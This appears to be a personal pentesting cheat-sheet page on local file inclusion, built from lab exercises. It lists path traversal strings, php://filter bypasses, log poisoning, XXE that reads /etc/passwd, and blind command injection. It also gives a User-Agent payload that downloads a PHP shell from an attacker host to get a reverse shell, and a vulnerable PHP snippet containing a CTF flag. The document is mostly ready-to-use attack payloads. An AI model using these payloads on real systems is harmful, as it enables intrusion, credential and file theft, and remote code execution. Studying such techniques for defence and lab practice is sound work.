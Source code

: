 ```yaml
---
title: LFI 🎃
---
```

> You should check [Path traversal Theory 🌵](/notes/Info/PortSwigger%20Academy/path_traversal.md)

## Nice articcles to read

- [invicti.com](https://www.invicti.com/blog/web-security/local-file-inclusion-vulnerability/)
- [outpost24: lfi to RCE](https://outpost24.com/blog/from-local-file-inclusion-to-remote-code-execution-part-2/)

## Classic ones

- If you find the php code with the filter like:

```php
        <?php

	    //FLAG: thm{explo1t1ng_lf1}

            function containsStr($str, $substr) {
                return strpos($str, $substr) !== false;
            }
	    if(isset($_GET["view"])){
	    if(!containsStr($_GET['view'], '../..') && containsStr($_GET['view'], '/var/www/html/development_testing')) {
            	include $_GET['view'];
            }else{

		echo 'Sorry, Thats not allowed';
            }
	}
        ?>
```

- You can just apply a filter like: `http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//../etc/passwd`

## Adding parameter file to url

- Linux File Inclussion
  - Check the `url` adding parameter `file`

![](Pasted%20image%2020240213235821.png)

## Fuzzing it

- FUZZ it using this command:
  - [Useful wordlist found here](https://github.com/xmendez/wfuzz/blob/master/wordlist/vulns/)

```shell
wfuzz -c -w dirTraversal.txt  --hw 0 http://10.10.70.109/?view=FUZZ
```


## Bypassing filters with encodings


- If the backend is filtering by checking the input, try this:

```shell
http://IP/?view=php://filter/FOLDER/convert.base64-encode/resource=index

# example
http://mafialive.thm/test.php?view=//filter/convert.base64-encode/resource=/var/www/html/development_testing/mrrobot.php
```

- Check out the &ext variable and put it empty because it won't get the file extension

## Log poisoning

- To perform this, first check out if you have access to the log file in an apache with Burpsuite:



- Log file contamination

```shell
http://IP/?view=dog../../../../../cat/../var/log/apache2/access.log&ext=
```


## Exploiting the User-Agent field

- Exploit the User-Agent Field:
  - First create a shell like the PentestMonkey one
  - Create a python server
  - Load the petition (like log file contamination petition) and capture it with BurpSuite
  - Modify the User-Agent field with this command:

```shell
<?php file_put_contents('shell.php', file_get_contents('http://IP_ATTACK:PORT/shell.php'))?>
```

- Then access to `http://IP/shell.php` and you got the reverse shell

## Regex filtering

When we can echo commands try and it's using a regex like: `/[#!@%^&*()$_=\[\]\';,{}:>?~\\\\]/` try:

```shell
http://IP_HOST/echo.php?search=id+|+bash
# Then just try other commands like
echo.php?search=ls+|+bash
# Then try to input a reverse shell
```

## Web filtering

If a web shell filters your input, try to encode it into `base64`

![](Pasted%20image%2020240417160455.png)

- If it doesn't work, try some [Command Injection 💄](command_injection.md)

## XML file inclusion (XXE)

- Detailed info about XXE in [Portswiger.net](https://portswigger.net/web-security/xxe)

- If a web accepts XML, it could be vulnerable to XXE.
- You can try to upload a code like this to inspect the system:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
   <!ELEMENT data ANY >
   <!ENTITY name SYSTEM "file:///etc/passwd" >]>
<comment>
  <name>&name;</name>
  <author>Pavandeep</author>
  <com>Hacking Articles</com>
</comment>
```

- Change the `"file:///etc/passwd"` for the one you want

## Lfi to RCE

If you can read some files by some kind of escape, we can bruteforce the `/proc/self/` directory in Apache.

This directory holds information about different processes. Each process is distinguished by its PID as shown below:

![](Pasted%20image%2020240501160143.png)

Every process can access its available information by requesting the `/proc/self` directory.

As Apache is requesting this file (via the LFI vulnerability) and since the file is located inside Apache’s proc directory, we can use `/proc/self` instead of searching for Apache’s PID. In a brief recap we could say that `/proc/self/environ` is – roughly- equal to `/proc/<apache_pid>/environ`.

The contents of this directory are [symbolic links](https://www.nixtutor.com/freebsd/understanding-symbolic-links/) pointing to the actual file of the process’ open file handlers:

![](Pasted%20image%2020240501160310.png)

It goes without saying that during the attack we do not know which symbolic link points to which file. The file we will be interested in is the Apache [access log](https://httpd.apache.org/docs/2.4/logs.html#accesslog). We choose this file as it’s dynamic and can be changed based on our input.

To identify the file, we will use Burp Intruder.

> First, we set up the position of our payload.

![](Pasted%20image%2020240501160409.png)

> As File Descriptors are identified by a numeric id, we choose the proper payload. `Payloads > Payload type: Numbers`

![](Pasted%20image%2020240501160501.png)

> A successfull attack should look like:

![](Pasted%20image%2020240501161147.png)

Now we would perform a **Log Poisoning** attack.

## Path traversal

- Nice tool to use (automatic tool): [PathTraversal](https://github.com/gotr00t0day/PathTraversal)

Example:

```shell
https://invented-domain.com/image?filename=image.png
# You can perform
https://invented-domain.com/image?filename=....//....//....//etc/passwd
```

Otherwise, if you want to do it manual you can use BurpSuite and try some combinations.

## Blind OS command injection

If you've got this kind of request:

![](Pasted%20image%2020240513160938.png)

Use the following payload:

```shell
||whoami>>/var/www/images/results.txt||
```

![](Pasted%20image%2020240513161049.png)